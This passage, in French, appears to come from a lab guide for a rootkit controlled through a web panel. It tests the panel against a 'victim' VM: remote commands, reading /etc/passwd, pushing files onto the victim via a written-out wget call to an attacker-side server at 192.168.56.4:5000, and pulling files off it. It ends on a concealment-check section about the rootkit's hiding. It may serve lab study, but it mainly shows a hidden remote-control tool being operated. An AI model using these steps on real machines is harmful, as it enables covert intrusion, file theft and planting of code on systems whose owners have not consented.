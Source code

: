 ```
| `users` | `w` | Utilisateurs connectés |

**Test manuel :**
1. Cliquer sur `uname -a`
2. **Résultat attendu :**
```
Linux ubuntu-focal 5.4.0-216-generic #216-Ubuntu SMP Wed Jun 9 10:50:01 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux

Code de retour: 0
```

### 8.2 Test de lecture de fichiers

**Mode Fichier :**
1. Cliquer sur l'onglet **"Mode Fichier"**
2. Saisir : `/etc/passwd`
3. Appuyer sur **Entrée**

**Résultat attendu :** Contenu complet du fichier `/etc/passwd`

### 8.3 Test d'upload de fichiers

**Mode Upload :**
1. Cliquer sur l'onglet **"Mode Upload"**
2. **Sélectionner un fichier** depuis votre machine
3. **Chemin de destination** : `/tmp/test_upload.txt`
4. Cliquer sur **"Upload WGET"**

**Résultat attendu :**
```
Upload via WGET: test.txt vers /tmp/test_upload.txt

Etape 1/2: Fichier stocké sur serveur
URL: http://192.168.56.4:5000/download/test.txt

Etape 2/2: Téléchargement via wget...
Commande exécutée: wget -O '/tmp/test_upload.txt' 'http://192.168.56.4:5000/download/test.txt'

Résultat:
--2025-06-15 14:30:00--  http://192.168.56.4:5000/download/test.txt
Connexion à 192.168.56.4:5000... connecté.
HTTP request sent, awaiting response... 200 OK
Length: 1024 [text/plain]
Saving to: '/tmp/test_upload.txt'

Upload terminé avec succès
```

### 8.4 Test de download de fichiers

1. Cliquer sur **"Download Fichier"**
2. **Chemin à télécharger** : `/etc/hostname`
3. Confirmer

**Résultat :** Le fichier se télécharge automatiquement sur votre machine

---

## Étape 9 : Vérification de la dissimulation

### 9.1 Test sur la machine victime

```bash
# Dans la VM victime
cd /home/vagrant/rootkit
```